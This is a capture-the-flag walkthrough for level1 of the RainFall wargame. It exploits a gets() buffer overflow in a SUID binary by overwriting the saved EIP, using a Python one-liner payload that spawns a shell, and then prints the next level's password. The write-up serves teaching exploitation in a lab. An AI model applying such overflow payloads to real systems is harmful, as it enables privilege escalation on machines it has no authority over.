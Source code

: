 # Walkthrough level1

First of all we look at the files:

```bash
level1@RainFall:~$ ls -la
(...)
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
```

We can see the [SUID](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)
bit is on and the owner is level1. So the file will be executed by level1.

Try to run the file:

```bash
level1@RainFall:~$ ./level1
asdf
level1@RainFall:~$
```

With the disassembly code we write the c code:

```c
#include <stdio.h>

void run(void) {
  fwrite("Good... Wait what?\n", 19, 1, stdout);
  system("/bin/sh");
}

int main(void) {
  char buffer[64];
  gets(buffer);
}
```

In the code we can see the function `gets` who read from the standard input to
the buffer wich result to a buffer overflow. With this buffer overflow we can
modify the stack and especially the saved EIP of main.

Here is a schema of the stack:

<p align="center"> <img alt="stack" src="assets/stack.png"> </p>

Padding = `64 (buffer size) + 8 (align byes size) + 4 (saved EBP size) = 76`

Address of function run = `0x08048444`

Check endianess:

```bash
level1@RainFall:~$ readelf -h level1
(...)
Data: 2's complement, little endian
```

Well we can generate the payload with the informations:

```bash
level1@RainFall:~$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" > /tmp/test.txt
level1@RainFall:~$ cat /tmp/test.txt | ./level1
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$
```

After some research we find this [link](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process) who explain that we are not in interactive mode because of the pipe.

```bash
cat /tmp/test.txt - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
^CSegmentation fault (core dumped)
level1@RainFall:~$ su level2
Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
(...)
level2@RainFall:~$
```
